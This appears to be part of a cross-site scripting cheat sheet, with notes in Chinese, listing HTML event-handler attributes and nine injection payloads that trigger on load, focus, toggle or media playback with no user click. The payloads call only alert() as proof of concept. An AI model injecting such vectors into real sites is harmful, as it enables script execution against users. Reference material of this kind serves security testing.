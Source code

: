 

### Situational HTML events

|Tag Attribute | Tags supported | Note|
| :--- | :--- | :--- | 
|onmessage | most tags | `postMessage` 通常用於繞過 iframe 限制和傳輸 data，因此如果頁面這樣做，你可以用 `onmessage` 來攔截消息和觸發程式碼|
| onblur | input, select, a | 設上 `autofocus=""`，當 user 點頁面上的任何東西將 focus 從 injected element 上移開時，可以達成 `1-click` |



Examples:

```html
<body onload=alert()>
```

```html
<img src=x onerror=alert()>
```

```html
<svg onload=alert()>
```

```html
<body onpageshow=alert(1)>
```

```html
<marquee width=10 loop=2 behavior="alternate" onbounce=alert()> (firefox only)
```


```html
<!-- (firefox only) -->
<marquee onstart=alert(1)>
```

```html
<!-- (firefox only) -->
<marquee loop=1 width=0 onfinish=alert(1)> 
```


```html
<input autofocus="" onfocus=alert(1)></input>
```

```html
<details open ontoggle="alert()">
```

### HTML5 events
(0-click only)  

| Name | Tags | Note |
| :--- | :--- | :--- |
| onplay | video, audio | `0-click`: 結合 HTML `autoplay` 屬性和有效的 video/audio clip |
| onplaying | video, audio | `0-click`: 結合 HTML `autoplay` 屬性和有效的 video/audio clip |
| oncanplay | video, audio | 必須連接到有效的 video/audio clip |
| onloadeddata | video, audio | 必須連接到有效的 video/audio clip |
| onloadedmetadata | video, audio | 必須連接到有效的 video/audio clip |
| onprogress | video, audio | 必須連接到有效的 video/audio clip |
| onloadstart | video, audio | 很有潛力的 underexploited `0-click` vector |
| oncanplay | video, audio | 必須連接到有效的 video/audio clip |
